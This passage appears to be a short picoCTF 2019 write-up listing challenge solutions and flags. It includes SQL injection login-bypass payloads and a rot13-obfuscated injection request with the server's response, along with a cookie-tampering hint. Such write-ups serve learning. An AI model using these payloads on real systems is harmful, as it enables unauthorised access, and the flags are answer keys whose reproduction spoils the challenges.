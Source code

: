 ```javascript
  }
}
```

flag: `picoCTF{not_this_again_06e0bc}`

# logon

change cookie

flag: `picoCTF{th3_c0nsp1r4cy_l1v3s_8025092e}`

# waves over lambda

https://www.guballa.de/substitution-solver

flag: `picoCTF{frequency_is_c_over_lambda_dcltncsuia}`

# Irish-Name-Repo 1

username `admin`
password `' or 1=1--`

flag: `picoCTF{s0m3_SQL_6b96db35}`

# Irish-Name-Repo 2

inject username

username `admin'--`
password `admin`

flag: `picoCTF{m0R3_SQL_plz_c9c1c726}`

# Irish-Name-Repo 3

rot13

```
$ http -v -f POST https://2019shell1.picoctf.com/problem/45112/login.php debug=1 password="' || cnffjbeq yvxr '%'--"POST /problem/45112/login.php HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 53
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Host: 2019shell1.picoctf.com
User-Agent: HTTPie/0.9.8

debug=1&password=%27+%7C%7C+cnffjbeq+yvxr+%27%25%27--

HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Sun, 29 Sep 2019 05:35:14 GMT
Server: nginx
Strict-Transport-Security: max-age=0
Transfer-Encoding: chunked

<pre>password: ' || cnffjbeq yvxr '%'--
SQL query: SELECT * FROM admin where password = '' || password like '%'--'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_9a2f17b3}</p>
```